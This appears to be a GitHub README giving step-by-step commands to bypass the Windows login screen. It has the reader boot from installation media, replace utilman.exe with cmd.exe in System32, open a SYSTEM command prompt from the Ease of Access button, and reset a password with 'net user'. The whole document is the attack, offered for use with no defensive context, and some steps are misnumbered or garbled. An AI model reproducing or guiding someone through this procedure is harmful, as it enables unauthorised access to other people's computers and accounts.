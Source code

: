 <h1 align="center">Bypass Windows Login Screen</h1>


## Requirement

A Computer, Bootable USB for Windows 10

1. Restart and hit Shift + 10

2. 
X: \Sources>

Input
```bash
wmic logicaldisk get name
```

Output:
    Name
    C:
    D:
    E:
    X:


3. 
X: \Sources>

Input
```bash
C:
#the directory which comtains your system files
```


4.
C: \>

Input
```bash
dir
```

Output:
Volume in drive C is System Reserved
Volume Serial Number is 56E1-426F

Directory of C:\
    File Not Found


5. 
E: \>

Input
```bash
D:
```


6. 
D: \>

Input
```bash
cd Windows
```


8. 
D: \Windows>

Input
```bash
cd System32
```


10. 
D: \Windows\System32>

Input
```bash
ren utilman.exe utilman2.exe
```


11. 
D: \Windows\System32>

Input
```bash
copy cmd.exe utilman.exe
```


12. Click Ease of Access - cmd will open

13. net user may password
